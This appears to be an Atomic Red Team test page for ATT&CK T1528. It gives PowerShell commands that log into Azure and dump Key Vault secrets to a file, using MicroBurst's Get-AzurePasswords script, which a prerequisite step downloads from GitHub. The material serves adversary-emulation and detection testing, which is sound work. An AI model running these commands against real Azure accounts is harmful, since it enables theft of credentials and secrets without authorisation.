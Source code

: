 ```yaml
---
tags: [T1528, atomic_test]
filename: "[[T1528|T1528 - Steal Application Access Token]]"
---
```

# T1528 - Steal Application Access Token

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst
Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_file | File to dump results to | string | $env:temp&#92;T1528Test1.txt|
| subscription_id | Azure subscription id to search | string | |


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```
##### Description: The Azure RM module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureRM -Force -allowclobber
```
##### Description: The Azure module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Azure -Force -allowclobber
```




<br/>
